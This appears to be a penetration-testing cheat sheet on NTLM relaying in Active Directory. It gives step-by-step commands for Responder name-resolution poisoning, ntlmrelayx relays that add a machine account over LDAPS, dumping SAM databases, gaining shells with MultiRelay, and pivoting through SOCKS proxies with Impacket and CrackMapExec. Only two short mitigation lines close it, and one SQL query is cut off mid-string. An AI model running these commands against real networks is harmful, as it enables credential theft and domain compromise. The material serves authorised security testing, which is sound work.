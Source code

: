 # NTLM Relaying attacks

## LDAP signing not required and LDAP channel binding disabled

### During security assessment, sometimes we don't have any account to perform the audit. Therefore we can inject ourselves into the Active Directory by performing NTLM relaying attack. For this technique three requirements are needed:

#### 1) LDAP signing not required (by default set to Not required )

#### 2) LDAP channel binding is disabled. (by default disabled)

#### 3) ms-DS-MachineAccountQuota needs to be at least at 1 for the account relayed (10 by default)

### Then we can use a tool to poison LLMNR , MDNS and NETBIOS requests on the network such as Responder and use ntlmrelayx to add our computer.

#### 1) Responder on 1 terminal

 - sudo ./Responder.py -I eth0 -wfrd -P -v

#### 2) Ntlmrelayx on 2 terminal

 - sudo python ./ntlmrelayx.py -t ldaps://IP_DC --add-computer

## It is required here to relay to LDAP over TLS because creating accounts is not allowed over an unencrypted connection.

# SMB Signing Disabled and IPv4

### If a machine has SMB signing : disabled , it is possible to use Responder with Multirelay.py script to perform an NTLMv2 hashes relay and get a shell access on the machine. Also called LLMNR/NBNS Poisoning

#### 1) Open the Responder.conf file and set the value of SMB and HTTP to Off 

#### 2) Run RunFinger.py to detect machine with SMB signing: disabled https://github.com/tholum/PiBunny/blob/master/system.d/library/tools_installer/tools_to_install/responder/tools/RunFinger.py

 - python RunFinger.py -i IP_RANGE

#### 3) Run Responder

 - sudo responder -I INTERFACE

#### 4) Use a relay tool such as ntlmrelayx or MultiRelay

 - impacket-ntlmrelayx -tf targets.txt (Dump the SAM database of the targets in the list)

 - python MultiRelay.py -t TARGET_IP -u ALL

#### 5) ntlmrelayx can also act as a SOCK proxy with every compromised sessions

 - impacket-ntlmrelayx -tf /tmp/targets.txt -socks -smb2support

### You might need to select a target with "-t"

 - impacket-ntlmrelayx -t mssql://10.10.10.10 -socks -smb2support

 - impacket-ntlmrelayx -t smb://10.10.10.10 -socks -smb2support

### The socks proxy can then be used with your Impacket tools or CrackMapExec

 - proxychains impacket-mssqlclient DOMAIN/USER@10.10.10.10 -windows-auth

 - proxychains crackmapexec mssql 10.10.10.10 -u user -p '' -d DOMAIN -q "SELECT

 - proxychains impacket-smbclient //192.168.48.230/Users -U contoso/normaluser1

## MITIGATIONS

#### 1) Disable LLMNR via group policy

#### 2) Disable NBT-NS

